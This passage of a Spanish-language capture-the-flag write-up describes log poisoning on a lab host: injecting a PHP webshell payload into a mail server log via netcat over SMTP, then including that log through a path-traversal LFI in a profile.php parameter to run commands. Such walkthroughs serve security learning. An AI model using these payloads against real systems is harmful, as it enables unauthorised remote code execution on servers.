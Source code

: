 Credenciales en texto claro.

Usuarios de correo válidos que se pueden atacar por fuerza bruta.

Errores de configuración que revelen rutas o servicios internos.

En este caso, se observa actividad con el servicio de correo pero sin credenciales explícitas (todavía).

---

## 🔎 Paso 25: Intento de Log Poisoning para lograr RCE  

Ya que confirmamos que el parámetro `img` en `profile.php` es vulnerable a **LFI**, probamos envenenar los **logs del servidor de correo** para ejecutar código malicioso.  

📸 *Captura: inyección de código PHP en el servicio SMTP mediante Netcat*  

<img width="501" height="319" alt="intento de enviar un mail webshell php" src="https://github.com/user-attachments/assets/a3a15dd9-050e-4ab2-97e4-e40d10396581" />

### ✅ Comando usado:
```bash
nc 10.10.182.236 25
````
✅ Payload enviado:
php
Copiar código
helo ok
mail from: <?php system($_GET["cmd"]); ?>
quit

🔍 Observaciones:
El servidor respondió que el payload no fue aceptado como dirección válida (501 5.1.7 Bad sender address syntax).

A pesar de eso, el intento confirma que el servidor Postfix procesa los datos y podría registrar parte del payload en mail.log.

Si logramos que el código PHP quede escrito en los logs, podremos incluirlos mediante LFI con algo como:

/profile.php?img=../../../../../../../../var/log/mail.log&cmd=id
Esto permitiría convertir la vulnerabilidad de LFI en Remote Code Execution (RCE).

## 🔎 Paso 26: Ejecución de comandos en el servidor (RCE)  

Tras inyectar el payload PHP en el log de correo (`/var/log/mail.log`), se accedió al archivo con el parámetro vulnerable `img` y se añadió el parámetro `cmd` para ejecutar comandos en el sistema.  

📸 *Captura: Ejecución de `id` desde el parámetro `cmd`*  

<img width="1399" height="853" alt="ejcutando comandos cmd=id" src="https://github.com/user-attachments/assets/777e8a76-6d49-4f86-95c2-1a9a63996591" />

### ✅ Payload utilizado:
http://10.10.182.236:50000/profile.php?img=../../../../../../../../var/log/mail.log&cmd=id
